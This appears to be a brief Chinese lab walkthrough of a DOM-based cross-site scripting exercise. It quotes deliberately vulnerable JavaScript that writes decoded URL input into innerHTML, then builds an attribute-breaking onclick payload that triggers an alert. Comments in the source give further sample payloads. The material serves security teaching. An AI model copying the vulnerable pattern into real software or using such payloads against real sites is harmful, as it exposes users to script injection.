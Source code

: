 ![img](./images/1653115384838-6f5df47f-4f60-48e6-8d1e-458c7761a002.png)

- 审查源码，发现和上一题类似

```js
<script>
​                    function domxss(){

​                        var str = window.location.search;

​                        var txss = decodeURIComponent(str.split("text=")[1]);

​                        var xss = txss.replace(/\+/g,' ');

//                        alert(xss);



​                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";

​                    }

​                    //试试：'><img src="G:\MyBlog\blog\source\_posts\%23" onmouseover="alert('xss')">

​                    //试试：' onclick="alert('xss')">,闭合掉就行

​                </script>
```

- 直接构造payload：' onclick="alert('xss')">

![img](./images/1653115471618-2a7a13b8-ea61-4e2e-880c-22ab8ff772ae.png)
